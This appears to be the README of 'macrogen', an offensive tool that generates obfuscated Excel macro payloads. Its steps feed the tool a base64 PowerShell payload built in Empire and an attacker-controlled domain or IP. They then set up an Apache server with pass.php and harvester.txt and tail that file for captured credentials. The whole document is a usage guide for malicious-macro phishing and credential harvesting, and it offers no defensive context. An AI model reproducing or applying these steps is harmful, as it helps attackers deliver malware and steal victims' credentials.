 # macrogen
<b>Microsoft Excel macro payload obfuscation generator<b>
</br>Usage: python macrogen.py [path to base64 encoded powershell payload] [attacker controlled domain name or external IP]
</br>
</br><b>Create the payload in Empire PowerShell</b>
</br>Remove "powershell.exe -NoP -NonI -W Hidden -Enc" from the payload created by Empire and save to a file.
</br>
</br><b>Copy pass.php and create harvester.txt in /var/www/html</b>
</br>cp pass.php /var/www/html/
</br>touch /var/www/html/harvester.txt
</br>
</br><b>Change ownership and permissions on harvester.txt and pass.php</b>
</br>chmod 755 /var/www/html/harvester.txt 
</br>chmod 755 /var/www/html/pass.php
</br>chown www-data:www-data /var/www/html/harvester.txt
</br>chown www-data:www-data /var/www/html/pass.php
</br>
</br><b>Start Apache on TCP port 80</b>
</br>service apache2 start
</br>
</br><b>Monitor the harvester.txt iile for creds</b>
</br>tail -f /var/www/html/harvester.txt
</br>
